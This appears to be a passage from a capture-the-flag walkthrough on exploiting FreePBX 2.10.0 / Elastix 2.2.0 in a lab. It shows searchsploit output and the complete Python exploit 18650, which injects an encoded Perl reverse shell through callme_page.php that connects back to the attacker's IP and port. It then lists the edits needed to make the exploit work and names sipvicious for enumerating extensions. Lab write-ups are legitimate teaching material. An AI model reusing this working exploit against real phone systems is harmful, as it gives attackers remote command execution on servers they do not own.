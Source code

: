 ## FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution [Path #5]

Since we know that FreePBX is running of this server, we can try this POC:

```shell
❯ searchsploit elastix freepbx
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                   | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looking at the exploit we can see a payload:

```python
import urllib
import ssl
rhost="10.10.10.7" # add the target IP
lhost="10.10.16.3" # add your IP
lport=443 # change the port
extension="1000" # change the extension number with a valid number

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

We need to modify the following:
- Change the Remote Host IP to the target IP
- Change the Local Host IP to ours.
- Change the Listening Port (if you want!)
- Change the extension number with a valid number

We can use the sipvicious svwar python script to find valid extensions numbers.
![sipvicious github](https://github.com/EnableSecurity/sipvicious/)

We can install sip vicious by reading it's documentation page: 
![sipvicious installation doc](https://github.com/EnableSecurity/sipvicious/wiki/Basics#installation)
